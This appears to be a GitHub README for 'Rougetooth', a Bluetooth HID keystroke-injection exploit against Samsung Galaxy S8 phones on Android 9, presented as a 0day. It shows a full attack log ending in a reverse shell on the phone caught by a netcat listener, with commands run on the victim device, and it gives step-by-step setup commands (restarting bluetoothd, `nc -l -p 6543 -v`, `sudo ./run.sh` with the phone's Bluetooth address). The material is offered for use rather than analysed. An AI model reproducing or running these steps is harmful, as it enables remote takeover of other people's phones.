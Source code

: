 **Rougetooth Bluetooth HID injection attack**

*This is 0day as of Apr 21, 2023*

```
 [?] Samsung S8 android 9 HID controller exploit
 [?] Tested on Build PPR1.180610.001.G950USQU8DUJ1
 [?] In memory of Jason Reynolds / Gemani

 [*] Building reverse shell for 10.0.2.2:6543
 [*] Pairing to 08:AE:D6:6F:DD:F8
 [!] Paired 08:AE:D6:6F:DD:F8 to DC:53:60:6C:FC:B3
 [!] Go to another terminal and start a netcat listener on port  to handle the shell!
 [*] Registered HID profile
 [!] Ready, waiting for connection from phone
 [*] Control channel connected to 08:AE:D6:6F:DD:F8
 [*] Interrupt channel connected to 08:AE:D6:6F:DD:F8
 [!] Building shell...
 [*] Trying to attain control over device...
 [*] Sending back to home screen...
 [*] Trying to pull up finder...
 [*] Trying to find termux...
 [*] Pushing shellcode now...
 listening on [any] 6543 ...
 ^C
 [!] Trying again...
 listening on [any] 6543 ...
 connect to [10.0.2.2] from nerkon [10.0.2.5] 51818
 ~ $ ls -al
 ls -al
 total 16
 drwx------ 3 u0_a466 u0_a466 4096 Apr 20 21:15 .
 drwxrwx--x 4 u0_a466 u0_a466 4096 Apr 20 21:12 ..
 -rw------- 1 u0_a466 u0_a466 1334 Apr 21 23:52 .bash_history
 drwx------ 2 u0_a466 u0_a466 4096 Apr 20 21:12 .termux
 ~ $ uname -a; id
 uname -a; id
 Linux localhost 4.4.153-17214672 #2 SMP PREEMPT Thu Oct 21 19:08:15 KST 2021 aarch64 Android
 uid=10466(u0_a466) gid=10466(u0_a466) groups=10466(u0_a466),3003(inet),9997(everybody),20466(u0_a466_cache),50466(all_a466)
 ~ $
```


*setup*

Need to run `sudo systemctl stop bluetooth`, then run: `bluetoothd -P input`.

Start a netcat listener on 6543 on your local machine: `nc -l -p 6543 -v`

Now pair the device, and: `sudo ./run.sh [phone bt mac] [local ip addr]`.  Now on the phone, tap on the computer's controller alias in the bluetooth screen, and the exploit should proceed.

With a little luck, you'll see a shell from the phone pop up in netcat within about a minute.

**Tested on:**

*linux kernel 6.1.12, bluetoothd 5.66, python libraries: python-xlib 0.27, dbus-python 1.2.16*

*Samsung Galaxy S8 running android 9, termux installed.*

Have fun, and be safe!

 

